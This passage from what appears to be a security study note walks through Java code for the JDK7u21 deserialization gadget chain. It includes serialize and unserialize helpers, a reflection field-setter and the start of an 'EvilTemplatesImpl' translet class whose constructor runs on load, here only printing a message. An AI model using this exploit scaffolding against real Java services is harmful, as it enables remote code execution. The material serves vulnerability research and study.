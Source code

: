 ```java
//        // 序列化
//        ByteArrayOutputStream barr = new ByteArrayOutputStream();
//        ObjectOutputStream oos = new ObjectOutputStream(barr);
//        oos.writeObject(set);
//        oos.close();
//
//        // 反序列化
//        System.out.println(barr);
//        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
//        Object o = (Object)ois.readObject();

        // 序列化
        serialize(set);
        // 反序列化
        unserialize("ser_JDK7u21.bin");
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void serialize(Object obj) throws IOException {
        FileOutputStream fileOutputStream = new FileOutputStream("./ser_JDK7u21.bin");
        ObjectOutputStream outputStream = new ObjectOutputStream(fileOutputStream);
        outputStream.writeObject(obj);
        outputStream.close();
        fileOutputStream.close();
    }

    public static void unserialize(String args) throws IOException, ClassNotFoundException {
        FileInputStream fileInputStream = new FileInputStream(args);
        ObjectInputStream ois = new ObjectInputStream(fileInputStream);

        ois.readObject();
    }
}
```

<img width="1331" alt="image" src="https://github.com/reidmu/sec-note/assets/84888757/fe825e6d-ff2b-4e80-bbd1-6c44f5e7f5a9">

### EvilTemplatesImpl.java
```java
package evil;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTemplatesImpl extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public EvilTemplatesImpl() throws Exception {
        super();
        System.out.println("Hello TemplatesImpl");
```